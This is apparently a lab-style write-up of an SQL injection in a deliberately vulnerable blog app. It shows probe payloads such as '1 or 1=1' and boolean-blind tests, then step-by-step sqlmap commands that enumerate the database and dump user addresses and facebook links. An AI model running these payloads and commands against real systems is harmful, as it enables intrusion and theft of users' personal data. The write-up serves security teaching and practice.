 # SQL injection 

## SQLi in PostURL

After watching the post and saw the parameter on the URL varies by post, should see the post can be from the database query according to `id` out.

![image](https://user-images.githubusercontent.com/63194321/133370013-a70c910b-8a60-4fbd-a680-64603899d327.png)

We will check in this location.

First, we will test by appending a quote character `'` after the parameter

![image](https://user-images.githubusercontent.com/63194321/133370885-897e59e2-d252-4d6b-a149-1edb82826ca4.png)

The return result is an error message. So pretty sure there's an SQLi vulnerability here.

![image](https://user-images.githubusercontent.com/63194321/133391406-72020e06-d044-4b9a-a2c9-48aae1e99cff.png)

To be more sure, we will send a more complex payload `1 or 1=1`.

The result returns all the articles in the database. So this is definitely an `SQli vulnerability`

On the other hand, to determine which type of SQLi it is, we will need to check a few more payloads.

If we add the payload `1 AND true=true`, the website results are still normal. This is a `boolean-base blind` which is a form of `blind SQLi`.

![image](https://user-images.githubusercontent.com/63194321/133391554-96cd5a80-a965-44da-b279-c4191f8ebe10.png)

We have identified the type and location of vulnerabilities, then we will exploit them next.


### Solution

Now we will use a tool called `SQl map` to exploit the vulnerability.

**B1.** Start Sqlmap and enter command to scan for `sqli` vulnerabilities:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch`

![image](https://user-images.githubusercontent.com/63194321/132514620-a0461970-1a66-4020-b964-d29e07edc21d.png)

**B2.** Define a list of databases:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -dbs`

![image](https://user-images.githubusercontent.com/63194321/132514974-21d6fb4f-a28f-4a49-98d4-b06a6f421684.png)

**B3.** Identify the tables in the database:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -tables`

![image](https://user-images.githubusercontent.com/63194321/132515143-ab63af90-e875-482c-a97d-260182a9fd1d.png)

**B4.**  Define columns in tables:

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -T blogapp_userprofile -columns`

![image](https://user-images.githubusercontent.com/63194321/132515937-1002ad48-2c16-45fe-a06b-573d4ab3373b.png)


**B5.** Get the address value, facebook link of users.

`sqlmap -u https://blog-vul.herokuapp.com/post/1 --batch -D public -T blogapp_userprofile -C address,facebook --dump`

![image](https://user-images.githubusercontent.com/63194321/132516371-564f7d1e-d631-412c-a24e-2032a255b77e.png)
